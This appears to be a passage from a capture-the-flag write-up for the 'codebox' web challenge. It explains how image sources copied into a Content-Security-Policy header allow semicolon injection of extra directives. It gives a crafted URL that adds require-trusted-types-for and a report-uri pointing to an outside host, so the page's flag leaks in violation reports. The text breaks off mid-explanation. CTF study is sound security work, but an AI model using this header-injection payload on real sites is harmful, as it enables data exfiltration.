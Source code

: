 The backend of this question extracts the img tags from req.query.code, and adds their src to the CSP header, here you can inject a semicolon, that is, append any CSP

```javascript
    const csp = [
        "default-src 'none'",
        "style-src 'unsafe-inline'",
        "script-src 'unsafe-inline'",
    ];

    if (images.length) {
        csp.push(`img-src ${images.join(' ')}`);
    }

    res.header('Content-Security-Policy', csp.join('; '));
```

![](https://imgur.com/JdXw6kj.png)

The code for setting the flag on the front end is as follows:

```html
<script>
    const code = new URL(window.location.href).searchParams.get('code');
    if (code) {
        const frame = document.createElement('iframe');
        frame.srcdoc = code;
        frame.sandbox = '';
        frame.width = '100%';
        document.getElementById('content').appendChild(frame);
        document.getElementById('code').value = code; 
    }

    const flag = localStorage.getItem('flag') ?? "flag{test_flag}";
    document.getElementById('flag').innerHTML = `<h1>${flag}</h1>`;
</script>
```

The flag is directly written into the DOM through innerHTML. If `require-trusted-types-for 'script'` is specified in the CSP header, the assignment of the innerHTML will violate the CSP rules because the string has not been processed by Trusted-Types.

Violations of CSP rules can be reported to the specified address through report-uri or report-to, and the reported content will contain a small number of error details.

Construct the following payload and access:

```
https://codebox.mc.ax/?code=<img+src="111%3brequire-trusted-types-for+'script'%3breport-uri+http://csp.example.com%3b">
```

![](https://imgur.com/BPsIPrg.png)

It can be found that require-trusted-types-for is indeed violated and report-uri is triggered to send the error to example.com, but the error occurs in the setting of iframe srcdoc in if (code), which leads to the code that sets the flag later and not implemented. How can we avoid violating CSP in iframe srcdoc? The answer is not to enter this code inside if(code), and look at the code source:
